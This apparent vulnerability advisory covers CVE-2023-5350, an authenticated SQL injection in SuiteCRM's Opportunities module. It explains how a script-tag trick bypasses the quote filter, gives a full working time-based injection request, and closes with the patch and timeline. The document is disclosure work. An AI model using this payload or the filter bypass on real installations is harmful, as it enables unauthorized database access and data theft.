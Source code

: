 ```yaml
---
layout: post
title:  CVE-2023-5350 - SuiteCRM < v7.14.0 authenticated SQL injection
date:   2024-01-11 02:50:40 +0100
img_path: /assets/img/2024-01-11-cve-2023-5350-SuiteCRM-SQLi/
category: advisory
cve: CVE-2023-5350
---
```


# TL:DR

Authenticated SQL injection affecting the ``Opportunities`` module of SuiteCRM for versions prior to 7.14.0


# Details

At CrowdStrike, following claims from a threat actor to have hacked SuiteCRM at multiple entities using a SQL injection, I started a little audit of SuiteCRM to uncover whether the threat was realistic or not. Upon research, I stumbled on the ``modules/Opportunities/Save.php`` file, in which we can find the following code:

```php
require_once('modules/Opportunities/OpportunityFormBase.php');
$opportunityForm = new OpportunityFormBase();
$opportunityForm->handleSave('',true,false);
```

The ``handleSave`` function may end up calling the ``clone_relationship`` function, using the ``duplicate_parent_id`` ``POST`` variable as 4th argument:

![code1](code1.png)

Within the ``clone_relationship`` function, a SQL query is created with this 4th argument, that could lead to SQL injection:

```php
function clone_relationship(&$db, $tables, $from_column = null, $from_id = null, $to_id = null)
{
    [...]
            $query = "SELECT * FROM $table WHERE $from_column='$from_id'";
        }
        $results = $db->query($query);
    [...]
```

At that point, several security measures prevent direct exploitation of this SQL injection:
- The ``Save.php`` file cannot be accessed directly due to a ``.htaccess`` directive setting up a ``403 unauthorized access`` on modules directory.
- The ``Save.php`` requires a valid “SugarEntry” entrypoint, that gets defined by going through the ``index.php`` endpoint with the ``action=Save`` and ``module=Opportunities`` parameters. However, doing so, the ``POST`` variables are filtered (quote gets encoded) against basic SQL injection through the use of the ``clean_incoming_data`` function.

Yet, the ``clean_incoming_data`` function can be tricked into leaving quotes unencoded, as highlighted by [this previous bounty report](https://huntr.dev/bounties/8afb7991-c6ed-42d9-bd9b-1cc83418df88/). Yet, the inner working of this bypass was not explained. 

Typically, the ``clean_incoming_data`` function calls the inner ``securexss`` function on each ``$_POST`` value. This ``securexss`` function first encodes quotes and then calls the ``xss_clean`` function from Voku. This ``xss_clean`` function decodes all characters present in the input string to clean; in order to detect and strip all the javascript related words afterwards. In case a javascript payload is detected by the function, then the cleaned up (and so decoded) string is returned. In case there is no payload detected, then the original string is returned (the encoded one). By integrating ``<script>`` in the SQL payload, ``xss_clean`` decodes the string (transform back the encoded quote to a decoded one), detect the attack and remove the ``<script>`` tag before returning the string with the decoded quote.

Here is an example request showing SQL injection by triggering a 5 seconds sleep by SuiteCrm application:

```
POST /suitecrm/index.php HTTP/1.1

Host: <redacted>
Content-Length: 633
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: <redacted>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<redacted>/suitecrm/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: EmailGridWidths=0=10&1=10&2=150&3=250&4=175&5=125; Users_sp_tab=All; Opportunities_sp_tab=All; ck_login_language_20=en_us; ck_login_theme_20=SuiteP; sugar_user_theme=SuiteP; PHPSESSID=7t8i63rduuadi6vg2n5tsemrq9; ck_login_id_20=d1c6197a-c7cf-4d2f-6970-649c44bd341a
Connection: close


module=Opportunities&record=&duplicateSave=true&duplicate_parent_id=1</script>'%20UNION%20SELECT%20sleep(5),1,2,3,4,5%20--%20-&duplicateId=3005bd81-1904-8e56-d5f5-649d55cc7438&isDuplicate=false&action=Save&return_module=Opportunities&return_action=DetailView&return_id=&module_tab=&contact_role=&offset=1&name=test23&account_name=testaccount&account_id=9bf1efd4-30c2-9e99-067c-649d4e24e2bf&currency_id=-99&date_closed=09%2F07%2F2023&amount=1%2C000%2C000.00&opportunity_type=&sales_stage=Prospecting&lead_source=&probability=10&campaign_name=&campaign_id=&next_step=&description=&assigned_user_name=gg+Administrator&assigned_user_id=1
```
# Proposed patch

The following modifications were proposed to secure the vulnerability:

- Use ``focus->db->quote`` in front of the ``$_POST['duplicate_parent_id']`` variable in the ``clone_relationship`` call to make sure quotes are escaped **->** <span style="color:green">implemented ([commit](https://github.com/salesagility/SuiteCRM/commit/bd9328e79f39ad0f49a53f609bfb5e42762b5fd8))</span>
- Modify the ``securexss`` function to encode the string after the ``xss_clean`` function call **->** vendor argued testing was necessary before incorporating this change, which is understandable. Last time I checked it was not implemented.

# Timeline

30 Jun 2023 : initial report
30 Jun 2023 : vendor confirmation
29 Aug 2023 : update available
